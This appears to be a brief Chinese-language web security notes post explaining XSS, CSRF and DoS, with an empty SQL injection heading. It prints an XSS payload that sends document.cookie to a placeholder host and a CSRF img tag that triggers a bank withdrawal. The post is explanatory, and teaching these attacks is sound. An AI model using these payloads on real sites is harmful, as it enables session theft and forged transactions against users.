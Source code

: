 ```yaml
---
title: web安全
date: 2019-07-28 19:39:15
categories:
- 项目实践
---
```


# xss攻击

<!--more-->

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。



类似以下的代码，攻击者可以向自己的服务器上发送一些当前网站的一些数据，如cookie

```
<script>location.href="//domain.com/?c=" + document.cookie</script>
```



# CSRF

跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。



```
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">
```



## 区别

XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。

# sql注入

# DoS
拒绝服务攻击（denial-of-service attack，DoS），亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。